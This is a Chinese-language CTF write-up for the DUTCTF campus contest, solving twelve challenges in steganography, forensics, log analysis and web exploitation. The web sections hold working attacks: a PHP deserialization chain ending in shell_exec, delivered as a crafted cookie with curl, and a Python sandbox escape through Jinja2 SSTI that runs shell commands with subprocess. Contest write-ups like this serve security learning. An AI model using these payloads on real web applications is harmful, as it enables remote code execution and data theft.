







# DUTCTF Writeup

比赛名称：DUTCTF

作者：cejames | 软件学院 王斯民 20242081177

日期：2026-05-10

## 1. Build Once, Leak Forever

### 题目

刚开始学前端开发的白井黑子同学不小心将他做的一个项目的前端构建产物连同部分 CI 日志一起公开了。源码并未泄露，但构建流程中似乎留下了某些不该被保留的敏感信息，你来试试看能不能找出它们？（结果请以 DUTCTF{.+} 的格式提交）

### 解题过程

关键文件：

```text
build.log
actions-step-summary.txt
dist\assets\*.js.map
```

`build.log` 中出现了多轮 replay family：

```text
auth
search
admin
editor
export
```

日志给出了每组应选择的 candidate 下标：

```text
auth   -> candidate[2]
search -> candidate[1]
admin  -> candidate[3]
editor -> candidate[0]
export -> candidate[2]
```

结合 source map 里的 `names` 表和 compaction 后保留窗口宽度 4 的提示，候选词对应 `names` 的 3 到 6 号索引：

```text
auth   candidates: tokens, sessions, maps, roles                    -> maps
search candidates: queries, remember, results, cache                -> remember
admin  candidates: panels, users, scopes, more                      -> more
editor candidates: than, inline, drafts, toolbar                    -> than
export candidates: archives, downloads, buildsForget, serializers   -> buildsForget
```

最后将 camelCase 归一化为下划线形式：

```text
maps remember more than builds forget
maps_remember_more_than_builds_forget
```

### Flag

```text
DUTCTF{maps_remember_more_than_builds_forget}
```

## 2. WoodenCabinetBand

### 题目

非常喜欢少女乐队作品的 RXC 同学因为看了动画《BanG Dream! Ave Mujica》的最新剧情而破大防，现在他决定听一听老作品的音乐缓解一下心情。老一辈少女乐队的歌就是有劲儿，不知道你能不能听出些门道。

这是曹主席出的一道题目，可以断定二次元浓度一定很高，绕不开图片隐写！

### 解题过程

使用 foremost 提取 WAV 中的隐写文件，得到 00059750.zip，其中包含加密文件？？？.txt。

使用 Python 提取 WAV LSB 小端序：

```python
import wave

path = r"桜高軽音部 - ふわふわ時間.wav"

with wave.open(path, "rb") as w:
    frames = w.readframes(w.getnframes())

bits = [b & 1 for b in frames]

data = bytearray()

for i in range(0, len(bits), 8):
    byte = 0
    for j in range(8):
        if i + j < len(bits):
            byte |= bits[i + j] << j
    data.append(byte)

open("lsb_output_reverse.bin", "wb").write(data)

print("done")
```

发现包含 png 文件：

<pre style="font-family: Consolas, 'Courier New', monospace; background: #f5f5f5; padding: 10px; border-radius: 4px; font-size: 14px;">
00:0000  99 BA <font color="#7DBEFF" >09 00 </font>89 50 4E 47 <font color="#7DBEFF" >0D 0A 1A 0A 00 00 00 0D </font> ..<font color="#7DBEFF" >..</font>.PNG<font color="#7DBEFF" >........</font> 
00:0010  49 48 44 52 <font color="#7DBEFF" >00 00 02 15 00 00 02 </font>EA <font color="#7DBEFF" >08 06 00 00 </font> IHDR<font color="#7DBEFF" >.......</font> <font color="#7DBEFF" >....</font> 
00:0020  <font color="#7DBEFF" >00 </font>77 2F <font color="#7DBEFF" >18 </font>D5 <font color="#7DBEFF" >00 00 00 01 </font>73 52 47 42 <font color="#7DBEFF" >00 </font>AE CE  <font color="#7DBEFF" >.</font>w/<font color="#7DBEFF" >.</font> <font color="#7DBEFF" >....</font>sRGB<font color="#7DBEFF" >.</font>.  
00:0030  <font color="#7DBEFF" >1C </font>E9 <font color="#7DBEFF" >00 00 00 04 </font>67 41 4D 41 <font color="#7DBEFF" >00 00 </font>B1 8F <font color="#7DBEFF" >0B </font>FC  <font color="#7DBEFF" >.</font> <font color="#7DBEFF" >....</font>gAMA<font color="#7DBEFF" >..</font>..<font color="#7DBEFF" >.</font>. 
00:0040  61 <font color="#7DBEFF" >05 00 00 00 09 </font>70 48 59 73 <font color="#7DBEFF" >00 00 0E </font>C3 <font color="#7DBEFF" >00 00 </font> a<font color="#7DBEFF" >.....</font>pHYs<font color="#7DBEFF" >...</font> <font color="#7DBEFF" >..</font> 
00:0050  <font color="#7DBEFF" >0E </font>C3 <font color="#7DBEFF" >01 </font>C7 6F A8 64 <font color="#7DBEFF" >00 00 01 </font>87 69 54 58 74 58  <font color="#7DBEFF" >.</font> <font color="#7DBEFF" >.</font> ..d<font color="#7DBEFF" >...</font>.iTXtX 
</pre>

使用 foremost 提取 bin 中隐写的 PNG 文件，得到 00000000.png：


将其拖入随波逐流，自动得到 00000000-修复高宽.png：


可以发现下方有“母鸡卡全都死光光啦 `mujikaquandousiguangguangla`”字样，作为密码解压出 ？？？.txt：

```assembly
LDA #$01
LDX #$00
clr:
STA $0200,X
STA $0300,X
STA $0400,X
STA $0500,X
INX
BNE clr
LDA #$00
STA $0262
STA $0263
……
```

可以看出是 6502 汇编画图，直接打印出来：

```python
import re

asm = open("asm.txt", "r", encoding="utf-8", errors="ignore").read().splitlines()

addrs = []
zero_mode = False

for line in asm:
    line = line.strip()

    if line.upper().startswith("LDA #$00"):
        zero_mode = True
        continue

    if not zero_mode:
        continue

    m = re.search(r"STA\s+\$([0-9A-Fa-f]{4})", line)
    if m:
        addr = int(m.group(1), 16)
        if 0x0200 <= addr <= 0x05FF:
            addrs.append(addr)

W, H = 32, 32
grid = [[" " for _ in range(W)] for _ in range(H)]

for addr in addrs:
    off = addr - 0x0200
    y = off // W
    x = off % W
    if 0 <= x < W and 0 <= y < H:
        grid[y][x] = "█"

for row in grid:
    print("".join(row))
```

得到 flag：



### Flag

```text
DUTCTF{HTT_SAIKOU!!!}
```

## 3. checkin

### 题目

摄影爱好者 Skyli 同学拍了一张很有感觉的校园雪景，你能从这张照片中体会到摄影师怎样的思想感情呢？

### 解题过程

将文件用 010editor 打开，可以在文件开头附近看到：

```text
DUTCTF{W31c0m3_
```

文件尾部还有一段内容：

```text
t0_DUTCTF2026}
```

将两段拼接即可得到完整 flag。

### Flag

```text
DUTCTF{W31c0m3_t0_DUTCTF2026}
```

## 4. 你喜欢校园跑吗？

### 题目

小林同学跑完今天的校园跑后，本以为可以开开心心去吃六食堂，结果系统后台把他的记录标成了“异常”，但是定位轨迹和步数什么的看起来都正常，管理员一时也判断不了他到底有没有问题。现在你拿到了小林同学的这台设备导出的定位、步数计数和签到点窗口等数据，请你帮管理员复盘一下：小林同学实际经过了哪些签到窗口？恢复出签到窗口序列后，请按 data/route_rules.py 生成提交内容。

### 解题过程

题目说明了：

```text
gps_fixes.csv 和 step_counter.csv 使用手机设备时间。
wifi_roam.csv 和 checkpoint_windows.json 使用服务器时间。
device_sync.csv 是健康探针日志，其中 queued 和 retry 样本不适合直接当精确 NTP。
手机中途发生过一次校时，需要填写前后两段 server_time - device_time。
```

先用 `device_sync.csv` 估计两段时间偏移。排除 queued、retry 等噪声探针后，得到两段偏移：

```text
-140,-130
```

再综合 GPS、本地坐标、Wi-Fi 指纹和步数连续性，恢复 checkpoint 窗口序列：

```text
A17,D08,J22,P04,R19,V31,T06,N44,C27,A51
```

最后使用题目提供的 `route_rules.py` 生成提交字符串：

```powershell
python route_rules.py A17,D08,J22,P04,R19,V31,T06,N44,C27,A51 --clock-model=-140,-130
```

输出：

```text
DUTCTF{night-run-3ongjj2dhtqpw2ow}
```

### Flag

```text
DUTCTF{night-run-3ongjj2dhtqpw2ow}
```

## 5. 热修复前的47秒

### 题目

校内某平台在一次热修复时出现了短暂异常，运维人员只来得及导出部分访问日志和索引残留等，他们知道你是网络安全大手子，于是带着数据登门拜访你，请你尝试恢复异常窗口内那次特殊请求对应的恢复口令。

### 解题过程

`verify.txt` 中说明只有 `accepted.final` 是最终提交目标：

```text
accepted.final=d68164a948df0f33ae9d08655fd6cc4f920dc9d2bd6894ad9e05b8cd5fdfa515
```

`task-index.residue` 中与最终目标对应的是 `lin.yan` 的 interrupted vault 任务：

```text
task=task_7c91e2fa4b6d owner=lin.yan scope=vault seed=miso-20260411-47 policy=recovery-v3 status=interrupted rid_prefix=req-8f3c6a9e
```

再从 `worker.log` 中取该任务真正生效的 attempt、started_ms 和容器退出码：

```text
1775875098420 export-worker-2 task=task_7c91e2fa4b6d attempt=3 state=started started_ms=1775875098420 runner=exp-b
1775875101936 export-worker-2 task=task_7c91e2fa4b6d attempt=3 state=interrupted checkpoint=seal-vault
1775875102413 export-worker-2 lifecycle=shutdown signal=SIGTERM drain=false inflight=1
```

SIGTERM 对应容器退出码 `143`。因此最终参数为：

```text
task_id    = task_7c91e2fa4b6d
owner      = lin.yan
scope      = vault
seed       = miso-20260411-47
started_ms = 1775875098420
exit_code  = 143
attempt    = 3
policy     = recovery-v3
```

使用 `recovery_policy.py` 中的 `recovery_code_v3` 逻辑生成 code：

```python
import base64
import hashlib
import hmac

target = "d68164a948df0f33ae9d08655fd6cc4f920dc9d2bd6894ad9e05b8cd5fdfa515"

def recovery_code_v3(task_id, owner, scope, seed, started_ms, exit_code, attempt):
    owner = owner.strip().lower()
    scope = scope.strip().lower()
    msg = f"{task_id}|{owner}|{scope}|{started_ms}|{exit_code}|{attempt}".encode()
    digest = hmac.new(seed.encode(), msg, hashlib.sha256).digest()
    text = base64.b32encode(digest).decode().lower().rstrip("=")
    return f"{text[:6]}-{text[6:12]}-{text[12:18]}"

code = recovery_code_v3(
    "task_7c91e2fa4b6d",
    "lin.yan",
    "vault",
    "miso-20260411-47",
    1775875098420,
    143,
    3,
)

flag = f"DUTCTF{{{code}}}"
print(flag)
print(hashlib.sha256(flag.encode()).hexdigest() == target)
```

输出：

```text
DUTCTF{yoypta-v53ugv-if2rck}
True
```

### Flag

```text
DUTCTF{yoypta-v53ugv-if2rck}
```

## 6. 谁动了我的策划书

### 题目

校学生会的同学把最终版的活动策划书发给老师后，老师回复说这些文档都被5432安全卫士报毒了，可能被人为修改过，学生会的同学一脸懵逼，决定让你来检查一下老师收到的文档有什么异样。

### 解题过程

文档实际是一个压缩包，使用压缩软件查看其中几个最近被修改的 XML 文件，可以在其中找出并拼接出 flag。





### Flag

```text
DUTCTF{0ff1c3_15_ju57_4_z1p}
```

## 7. EZunserialize

### 题目

一道简单的反序列化题一道简单的反序列化题

### 解题过程

反序列化利用链如下：

```text
Session::__destruct() → Logger::save() → 字符串拼接触发 Formatter::__toString() → Dispatcher::run() → call_user_func() → Runner::__invoke() → shell_exec()
```

生成cookie如下：

```python
import base64
import zlib

payload = b'O:7:"Session":2:{s:4:"meta";a:1:{s:4:"note";O:9:"Formatter":2:{s:7:"pattern";s:2:"%s";s:10:"dispatcher";O:10:"Dispatcher":2:{s:2:"cb";O:6:"Runner":2:{s:6:"prefix";s:6:"base64";s:3:"cmd";s:0:"";}s:3:"arg";s:6:" /fla?";}}}s:6:"logger";O:6:"Logger":1:{s:4:"path";s:12:"php://output";}}'

archive = base64.b64encode(payload).decode()
check = zlib.crc32(payload) & 0xffffffff

print("archive =", archive)
print("check =", check)
```

利用如下：

```cmd
curl.exe "http://202.118.70.251:32468/" -H "Cookie: archive=Tzo3OiJTZXNzaW9uIjoyOntzOjQ6Im1ldGEiO2E6MTp7czo0OiJub3RlIjtPOjk6IkZvcm1hdHRlciI6Mjp7czo3OiJwYXR0ZXJuIjtzOjI6IiVzIjtzOjEwOiJkaXNwYXRjaGVyIjtPOjEwOiJEaXNwYXRjaGVyIjoyOntzOjI6ImNiIjtPOjY6IlJ1bm5lciI6Mjp7czo2OiJwcmVmaXgiO3M6NjoiYmFzZTY0IjtzOjM6ImNtZCI7czowOiIiO31zOjM6ImFyZyI7czo2OiIgL2ZsYT8iO319fXM6NjoibG9nZ2VyIjtPOjY6IkxvZ2dlciI6MTp7czo0OiJwYXRoIjtzOjEyOiJwaHA6Ly9vdXRwdXQiO319; check=1229168275"
```

末端返回：

```text
RFVUQ1RGezJjYjkxZmI3LWUwMTYtNDM4MC05ZGExLWQ5ODMxOWYwYmUyMX0K
```

base64 解码即可得到 flag。

### Flag

```text
DUTCTF{2cb91fb7-e016-4380-9da1-d98319f0be21}
```

## 8. Game Collection

### 题目

来玩小游戏合集，全部通关即可获得奖励

### 解题过程

使用Fiddler截取所有游戏完整的包，搜索Flag1 ~ 3，可以确定位置







拼接得到：`DUTCTF{Ar3_7h3_9@me5_inTeRE`

没有发现 Flag4 线索，使用 dirsearch 扫站，发现 robots.txt：

```cmd
C:\Users\Administrator>dirsearch -u http://202.118.70.251:30913/

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\Administrator\reports\http_202.118.70.251_30913\__26-05-10_20-00-49.txt

Target: http://202.118.70.251:30913/

[20:00:49] Starting:
[20:01:10] 200 -  101B  - /robots.txt

Task Completed
```

```yaml
User-agent: *
Allow:/
Disallow: /aircraft-war/
Disallow: /coin/
Disallow: /h1dden/
Disallow: /wordle/
```

访问 <http://202.118.70.251:30913/h1dden/>，得到 Flag4：`s7in9?}`

### Flag

```text
DUTCTF{Ar3_7h3_9@me5_inTeREs7in9?}
```

## 9. Online Cauculator

### 题目

这是一个在线计算器，同时拥有信号图象处理等强大功能。快来试试吧！

### 解题过程

根据提示 *Note: Advanced signal processing functions are available via the 'signal_opt' module (e.g., signal_opt.clip(value)).*，查看 `signal_opt.clip` 的全局变量：

```python
signal_opt.clip.__globals__.keys()
```

返回：

```text
dict_keys([
  '__name__',
  '__doc__',
  '__package__',
  '__loader__',
  '__spec__',
  '__annotations__',
  '__builtins__',
  '__file__',
  '__cached__',
  'math',
  'Flask',
  'request',
  'jsonify',
  'render_template',
  'app',
  'SignalProcessor',
  'waf',
  'index',
  'calculate'
])
```

查看 `waf` 常量：

```python
signal_opt.clip.__globals__['waf'].__code__.co_consts
```

返回：

```text
(
  None,
  (
    '__class__',
    '__bases__',
    '__subclasses__',
    '__mro__',
    '__builtins__',
    'eval',
    'exec',
    'import',
    'os',
    'sys',
    'open',
    'getattr',
    'setattr'
  )
)
```

无妨，可以用字符串拼接绕过，比如：

```python
'__im'+'port__' → __import__
```

通过 `__builtins__` 读取文件：

```python
vars(list(signal_opt.clip.__globals__.values())[6])['o'+'pen']('/flag').read()
```

返回：

```text
TypeError: 'NoneType' object is not subscriptable
```

说明当前 `__builtins__` 被置空，查看 `render_template` 函数的全局变量

```python
signal_opt.clip.__globals__['render_template'].__globals__.keys()
```

返回：

```text
dict_keys([
  '__name__',
  '__doc__',
  '__package__',
  '__loader__',
  '__spec__',
  '__file__',
  '__cached__',
  '__builtins__',
  'annotations',
  't',
  'BaseLoader',
  'BaseEnvironment',
  'Template',
  'TemplateNotFound',
  '_cv_app',
  '_cv_request',
  'current_app',
  'request',
  'stream_with_context',
  'before_render_template',
  'template_rendered',
  '_default_template_ctx_processor',
  'Environment',
  'DispatchingJinjaLoader',
  '_render',
  'render_template',
  'render_template_string',
  '_stream',
  'stream_template',
  'stream_template_string'
])
```

发现渲染方法函数，可以 SSTI：

```python
render_template_string
```

使用 Jinja2 模板，执行 `ls`：

```python
signal_opt.clip.__globals__['render_template'].__globals__['render_template_string']('{{url_for.__globals__["'+'_'*2+'builtins'+'_'*2+'"]["__im'+'port__"]("subprocess").check_output("ls /",shell=True).decode()}}')
```

返回：

```text
app
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

读取 flag：

```python
signal_opt.clip.__globals__['render_template'].__globals__['render_template_string']('{{url_for.__globals__["'+'_'*2+'builtins'+'_'*2+'"]["__im'+'port__"]("subprocess").check_output("cat /flag",shell=True).decode()}}')
```

返回：

```text
"DUTCTF{d40bc77d-3ffb-4bc3-be24-c9b27e69ced0}\n"
```

### Flag

```text
DUTCTF{d40bc77d-3ffb-4bc3-be24-c9b27e69ced0}
```

## 10. SilentUpload

### 题目

“脑思”科技有限公司的一台 Web 服务器疑似被上传了 webshell，运维小哥后知后觉，只打包出了部分日志和站点文件，为了保住运维小哥的工作，请你想想办法复现一下攻击者都做了什么，并找回被带走的结果。

### 解题过程

访问日志中发现可疑上传：

```text
198.51.100.23 - - [17/Apr/2026:14:19:22 +0800] "POST /upload.php HTTP/1.1" 200 2
```

audit 日志显示创建了 WebShell：

```text
name="/var/www/html/uploads/avatar.php" nametype=CREATE
```

audit 日志中的 `PROCTITLE` 是十六进制编码的命令，批量解码命令：

```bash
grep 'proctitle=' audit.log | sed 's/.*proctitle=//' | while read h; do
  echo "$h" | xxd -r -p | tr '\0' ' '
  echo
done
```

日志中发现攻击者将十六进制内容写入临时文件：

```bash
printf '4455544354467b7733' | xxd -r -p >> /dev/shm/.cache/.session
printf '625f6c30675f74316d' | xxd -r -p >> /dev/shm/.cache/.session
printf '336c316e335f74336c' | xxd -r -p >> /dev/shm/.cache/.session
printf '6c735f7468335f7374' | xxd -r -p >> /dev/shm/.cache/.session
printf '3072797d' | xxd -r -p >> /dev/shm/.cache/.session
```

拼接十六进制并解码：

```bash
echo '4455544354467b7733625f6c30675f74316d336c316e335f74336c6c735f7468335f73743072797d' | xxd -r -p
```

返回：

```text
DUTCTF{w3b_l0g_t1m3l1n3_t3lls_th3_st0ry}
```

### Flag

```text
DUTCTF{w3b_l0g_t1m3l1n3_t3lls_th3_st0ry}
```

## 11. Word.exe

### 题目

教学楼 A306 室有一台公用电脑，小杨同学在这台电脑上用 U 盘处理校赛材料时，顺手把最终结果封存成了一个加密文件，但是他后来误删了 U 盘里的所有东西，只留下了电脑中的加密文件。组里的同学导出了这台电脑上的一些蛛丝马迹，请你还原小杨同学的操作过程，帮他找回加密文件中的内容。

### 解题过程

PowerShell 事件日志中可以恢复加密脚本的核心逻辑：

```powershell
$sid = (whoami /user | Select-String 'S-1-5-21').Matches.Value
$serial = Read-Host 'USB serial'
$vol = Read-Host 'Volume GUID'
$pin = Read-Host 'operator code'
$material = "$sid|$serial|$($vol.ToLower())|$pin"
```

脚本用 `SHA256(material)` 作为种子，再用 HMAC-SHA256 生成 keystream，对 `case.vlt` 中的密文做 XOR 解密，并用截断 HMAC tag 校验。

从注册表中提取 SID、U 盘序列号和 Volume GUID：

```text
SID     = S-1-5-21-2382409117-3129467912-1836298844-1001
serial  = 4C530001230101117285
Volume  = 7b8d53b4-5f11-4b70-9e28-1cc3d82d4a19
```

从回收站 `$I7Z9N4.txt` 中解析删除时间。该记录对应原始路径：

```text
E:\case\operator_note.txt
```

删除时间换算到本地时区后得到 operator code：

```text
20260418211809
```

用这些字段组合材料：

```text
S-1-5-21-2382409117-3129467912-1836298844-1001|4C530001230101117285|7b8d53b4-5f11-4b70-9e28-1cc3d82d4a19|20260418211809
```

解密脚本如下：

```python
import base64
import hashlib
import hmac
import struct

sid = "S-1-5-21-2382409117-3129467912-1836298844-1001"
serial = "4C530001230101117285"
vol = "7b8d53b4-5f11-4b70-9e28-1cc3d82d4a19"
pin = "20260418211809"

blob = base64.b64decode(
    "kEf5qBX6TRTGHYti8N++QSrZBfrirjoHKbpiyX6kSkkJKLneughI06k6DneeeoEbWKvL5/gzCArDviv/KKvHjy67hxKZhDgljSjC5/ln"
)
nonce = blob[:16]
cipher = blob[16:-12]
tag = blob[-12:]

material = f"{sid}|{serial}|{vol.lower()}|{pin}"
seed = hashlib.sha256(material.encode()).digest()

calc_tag = hmac.new(seed, nonce + cipher, hashlib.sha256).digest()[:12]
assert calc_tag == tag

stream = b""
counter = 0
while len(stream) < len(cipher):
    stream += hmac.new(seed, nonce + struct.pack("<I", counter), hashlib.sha256).digest()
    counter += 1

plain = bytes(a ^ b for a, b in zip(cipher, stream))
print(plain.decode())
```

输出：

```text
DUTCTF{usb_recycle_bin_timeline_unlocks_the_vault}
```

### Flag

```text
DUTCTF{usb_recycle_bin_timeline_unlocks_the_vault}
```

## 12. browser

### 题目

听说每个人的电脑上最私密的东西是浏览器的历史记录？

### 解题过程

使用 AXIOM 建立并查看案件，通过标题和对应的 URL 即可拼接出 flag：



### Flag

```text
DUTCTF{br0ws3r_h1story_1s_4ls0_ev1d3nc3}
```

